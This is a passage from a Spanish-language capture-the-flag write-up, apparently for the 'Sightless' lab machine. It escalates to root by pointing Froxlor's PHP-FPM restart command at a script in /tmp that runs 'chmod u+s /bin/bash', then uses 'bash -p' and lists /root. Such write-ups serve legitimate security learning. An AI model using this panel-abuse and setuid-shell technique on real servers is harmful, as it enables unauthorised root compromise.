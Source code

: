 Pero en `PHP -> PHP-FPM Versions` tenemos la posibilidad de editar un comando sin necesidad del A2F (aunque esto último puedes activarlo fácilmente):

![Uh](/assets/writeups/sightless/9.png)

> El modo oscuro lo puedes habilitar en las opciones de usuario.
{: .prompt-tip }

No nos permite colocarle cosas extrañas, pero si rutas absolutas a programas o scripts, por lo que si creamos `/tmp/uwu.sh` con permisos de ejecución:

```bash
#!/bin/bash

service php8.1-fpm restart
chmod u+s /bin/bash
```
{: file="/tmp/uwu.sh" }

y le colocamos la ruta del archivo al Froxlor, lo ejecutará al reiniciar el servicio `php-fpm` y por ende:

```bash
michael@sightless:/tmp$ ls -la /usr/bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /usr/bin/bash
```

Ahora podemos simplemente tomar la última flag.

```bash
michael@sightless:/tmp$ bash -p
bash-5.1# cd /root
bash-5.1# ls -al
total 44
drwx------  7 root root 4096 Jan 18 15:02 .
drwxr-xr-x 18 root root 4096 Sep  3 08:20 ..
lrwxrwxrwx  1 root root    9 May 21  2024 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Sep  3 08:18 .cache
drwxr-xr-x  3 root root 4096 Aug  9 11:17 docker-volumes
-rw-------  1 root root   20 Aug  9 10:56 .lesshst
drwxr-xr-x  3 root root 4096 Sep  3 08:28 .local
lrwxrwxrwx  1 root root    9 May 21  2024 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 Jan 18 15:02 root.txt
drwxr-xr-x  3 root root 4096 Aug  9 11:17 scripts
drwx------  2 root root 4096 Sep  3 08:30 .ssh
```